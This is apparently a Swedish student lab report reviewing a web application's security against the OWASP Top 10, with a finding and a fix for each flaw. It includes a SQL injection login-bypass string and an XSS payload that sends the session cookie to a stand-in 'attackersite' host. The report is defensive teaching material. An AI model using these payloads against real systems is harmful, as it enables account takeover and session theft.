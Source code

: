 Ingela Bladh (ib222dp)

# Rapport, Labb 2

## Säkerhetsproblem

### Injektion

Injektion innebär att opålitlig data skickas till en programtolk som en del av ett kommando eller en fråga. Denna 
opålitliga data kan lura programtolken till att utföra kommandon eller ge åtkomst till data utan auktorisering [1, s. 6]. 
Jag kunde i denna applikation logga in genom att ange Bob' OR '1'='1 som lösenord, eftersom sökfrågan blir
SELECT * FROM user WHERE ... password = 'Bob' OR '1'='1'.  
Injektion undviks genom att använda parametriserade sökfrågor, eftersom dessa förhindrar förvirring rörande specialtecken 
som '. Till exempel skulle databasen i detta fall sökas igenom för att hitta ett lösenord som innehåller ' OR '1='1 [2]. 
Validering av indata och vitlistning av tecken rekommenderas också, men är inte ett fullständigt skydd eftersom många 
applikationer behöver acceptera specialtecken som indata [1, s. 7].  

### Bristande autentisering och sessionshantering

Funktioner som har med autentisering och sessionshantering att göra implementeras ofta på ett felaktigt sätt. På så 
sätt kan angripare komma över lösenord, nycklar eller sessionstokens, eller utnyttja andra brister i implementationen
för att anta andra användares identiteter [1, s. 6]. I denna applikation förstörs inte sessionen vid utloggning. Detta
betyder att om en användare loggar in på applikationen på en publik dator och sedan loggar ut, så kan en annan användare
komma in på den tidigare användarens konto genom att trycka på bakåt-knappen eller skriva in `.../message` i 
webbläsarens adressfält. I detta fall bör man se till att sessionen förstörs vid utloggning, och att sessionen 
förstörs automatiskt efter en viss tid (eftersom användare kan använda applikationen på en publik dator och sedan stänga 
webbläsaren utan att logga ut) [1, s. 8].

### XSS (cross-site scripting)

XSS-brister uppstår när en applikation accepterar opålitlig data och skickar den till en webbläsare utan ordentlig
validering eller escape-sekvenser. Via XSS kan angripare exekvera skript i offrets webbläsare, vilka kan stjäla 
sessioner, förvanska webbplatser eller dirigera om användaren till skadliga webbplatser [1, s. 6].  
I denna applikation går det att skriva `<a href='#' onclick='alert(document.cookie)'>Hej</a>` som ett meddelande, 
och när man sedan klickar på länken syns sessionskakan i ett varningsfönster. Detta innebär att en angripare kan stjäla 
en användares sessionskaka och på så sätt få tillgång till dennes konto, genom att skriva till exempel 
`<script>document.location='http://attackersite/'+document.cookie</script>` som ett meddelande [2].  
XSS-brister undviks genom att validera indata och filtrera utdata [3]. Vitlistning av tillåtna tecken rekommenderas men 
är inte ett fullständigt skydd. Vilka escape-sekvenser som bör användas för utdata beror på kontexten som utdatan ska 
placeras i (till exempel HTML, Javasript eller CSS) [1, s. 9].

### Osäkra direkta objektreferenser

En direkt objektreferens inträffar när en utvecklare exponerar en referens till ett internt implementationsobjekt, som
till exempel en fil, en katalog eller en databasnyckel. Vid avsaknad av åtkomstkontroll eller annat skydd kan angripare
manipulera dessa referenser för att få åtkomst till data utan auktorisering [1, s. 6]. I denna applikation exponeras
varje meddelandes databasnyckel i ett dolt fält i HTML-koden, och eftersom ingen åtkomstkontroll görs i funktionerna
som har med radering av meddelanden att göra, skulle en användare kunna radera en annan användares meddelanden.  
Man kan undvika osäkra direkta objektreferenser genom att använda indirekta objektreferenser per användare eller per 
session. Till exempel kan en användare få se en numrerad dropdown-lista med de resurser hen har tillgång till, 
och applikationen kartlägger sedan vilken databasnyckel som numret framför resursen som användaren har valt matchar. Om 
direkta objektreferenser används är det viktigt att kontrollera att användaren är auktoriserad att få tillgång till det 
begärda objektet [1, s. 10].  

### Exponering av känslig data

Känslig data bör inte lagras eller transporteras i klartext. Angripare kan stjäla eller ändra dåligt skyddad data för 
att genomföra till exempel kreditkortsbedrägeri eller identitetsstöld [1, s. 6]. I denna applikation verkar lösenord 
sparas i klartext i databasen.  
Lösenord ska lagras med en algoritm som utformats speciellt för lösenordsskydd, som till exempel bcrypt, PBKDF2 eller 
scrypt [1, s. 12]. De ska inte krypteras utan hashas, eftersom krypterade lösenord kan dekrypteras. För att skydda mot 
att läckta hashade lösenord slås upp mot regnbågstabeller ska ett slumpat salt läggas till varje lösenord. För att 
försvåra "brute force"-attacker kan man hasha lösenordet flera gånger [3].  

### Saknad åtkomstkontroll på funktionsnivå

Utöver åtkomstkontroller på klienten måste applikationer också utföra åtkomstkontroller på servern varje gång en 
funktion anropas. Utan dessa kontroller kommer angripare att via egna anrop kunna komma åt funktionalitet utan
auktorisering [1, s. 6]. I denna applikation kan man komma åt meddelandena utan att logga in, genom att skriva in 
`.../message/data` i webbläsarens adressfält. Detta kan undvikas till exempel genom att lägga till en åtkomstkontroll 
i funktionen "getMessages" i filen "messageModel.js". Det är inte tillräckligt att inte visa länkar eller knappar till 
skyddade funktioner, utan åtkomstkontroller måste också utföras på servern [1, s. 13].

### CSRF (cross-site request forgery)

En CSRF-attack innebär att en inloggad användares webbläsare tvingas att skicka ett förfalskat http-anrop - som innehåller
användarens sessionskaka och annan automatiskt inkluderad autentiseringsinformation - till en sårbar webbapplikation.
På så sätt kan angriparen tvinga användarens webbläsare att skapa anrop som den sårbara applikationen tror är legitima
anrop från användaren [1, s. 6]. Denna applikation verkar inte ha tillräckligt skydd mot CSRF-attacker eftersom det inte
finns några dolda fält med slumpmässigt genererade värden i formulären. 

### Användning av komponenter med kända sårbarheter

Komponenter, som till exempel bibliotek, ramverk och andra programvarumoduler, körs nästan alltid med fullständiga 
rättigheter. Om en sårbar komponent utnyttjas kan en sådan attack medföra allvarlig dataförlust eller serverövertagande.
Om en applikation använder komponenter med kända sårbarheter kan detta undergräva applikationens försvarsmekanismer och
möjliggöra en rad attacker [1, s. 6]. I denna applikation verkar en gammal version av Jquery användas (v 1.10.2).

## Prestandaproblem



## Övergripande reflektioner



## Referenser

Ref | Källa
--- | :------
[1] | OWASP, "OWASP Top 10 - 2013 - The ten most critical web application security risks", *OWASP*, september 2015 [Online] Tillgänglig: <https://www.owasp.org/index.php/Top10#OWASP_Top_10_for_2013>. [Hämtad: 23 november, 2015].
[2] | M. Coates, "Application Security - Understanding, exploiting and defending against top web vulnerabilities", *Youtube*, mars 2014 [Online] Tillgänglig: <https://www.youtube.com/watch?v=sY7pUJU8a7U>. [Hämtad: 23 november, 2015].
[3] | J. Leitet, "Webbteknik II - HT13 - Webbsäkerhet", *Youtube*, november 2013 [Online] Tillgänglig: <https://www.youtube.com/watch?v=Gc_pc9TMEIk>. [Hämtad: 23 november, 2015].